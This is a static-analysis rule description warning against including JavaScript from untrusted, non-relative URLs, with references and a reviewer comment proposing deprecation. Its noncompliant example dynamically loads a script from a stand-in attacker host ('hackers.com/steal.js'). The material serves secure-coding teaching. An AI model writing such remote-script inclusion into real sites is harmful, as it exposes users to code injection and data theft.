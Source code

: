 == Why is this an issue?

Including content in your site from an untrusted source can expose your users to attackers and even compromise your own site. For that reason, this rule raises an issue for each non-relative URL.


=== Noncompliant code example

[source,javascript]
----
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // Noncompliant
----

== Resources

* https://owasp.org/www-project-top-ten/2017/A1_2017-Injection[OWASP Top 10 2017 Category A1] - Injection
* https://cwe.mitre.org/data/definitions/829[MITRE, CWE-829] - Inclusion of Functionality from Untrusted Control Sphere
* SANS - https://www.sans.org/top25-software-errors[Top 25 Most Dangerous Software Errors]


ifdef::env-github,rspecator-view[]

'''
== Implementation Specification
(visible only on this page)

=== Message

Remove this content from an untrusted source.


=== Parameters

.domainsToIgnore
****

Comma-delimited list of domains to ignore. Regexes may be used, E.G. (.*\.)?example\.com,foo\.org
****


'''
== Comments And Links
(visible only on this page)

=== deprecates: S1829

=== on 10 Jan 2020, 10:14:47 Eric Therond wrote:
Should be deprecated:

* No compliant solution to propose
* Could be noisy <img src="http://example.com/pic.gif"> or <script src=\http://example.com/jquery.js> is pretty common
* Could be replaced by a more relevant taint analysis rule in the future

endif::env-github,rspecator-view[]
